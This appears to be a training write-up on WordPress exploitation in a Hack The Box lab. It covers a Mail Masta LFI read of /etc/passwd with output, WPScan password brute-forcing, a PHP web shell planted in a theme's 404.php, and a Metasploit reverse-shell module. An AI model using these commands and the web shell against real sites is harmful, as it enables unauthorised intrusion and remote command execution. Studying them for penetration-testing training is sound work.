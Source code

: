 # Exploitation

## Vulnerable plugin

### Leveraging WPScan results

The following report generated by WPScan tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called `Twenty Twenty`. WPScan identified two vulnerable plugins, `Mail Masta 1.0` and `Google Review Slider`. This version of the `Mail Masta` plugin is known to be vulnerable to SQLi as well as _Local File Inclusion_ (_LFI_). The report output also contains URLs to PoCs, which provide information on how to exploit these vulnerabilities.

Let's verify if the LFI can be exploited based on this [exploit-db report](https://academy.hackthebox.com/module/17/section/44). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

#### Local File Inclusion (LFI) example

![browser](image.png)

We can validate this vulnerability using cURL on the CLI:

```console
$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

## User bruteforce

WPScan can be used to brute force usernames and passwords. It can use `xmlrpc` (WordPress API through `/xmlrpc.php`) and `wp-login` (WordPress login page) methods.

:::tip
The `xmlrpc` method is preferred as it is faster.
:::

```console
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

## Theme editor

### Remote Code Execution (RCE) example

With administrative access to WordPress, we can modify the PHP source code to execute system commands.

Log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. Select an inactive theme in order to avoid corrupting the main theme.

![theme editor](image-1.png)

![select theme](image-2.png)

Next, choose a non-critical file such as `404.php` to modify and add a web shell.

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

This will allow us to directly execute OS commands by sending a GET request and appending the `cmd` parameter (e.g., `404.php?cmd=id`).

You can validate it by issuing a curl command:

```console
$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

## Metasploit

### Reverse shell

We can obtain a reverse shell using valid credentials for an account that has sufficient rights to create files on the webserver.

```console
$ msfconsole
$ msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

The number `0` in the search results represents the ID for the suggested modules.

```console
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >

msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

After using the `set` command to make the necessary modifications, we can use the `run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.
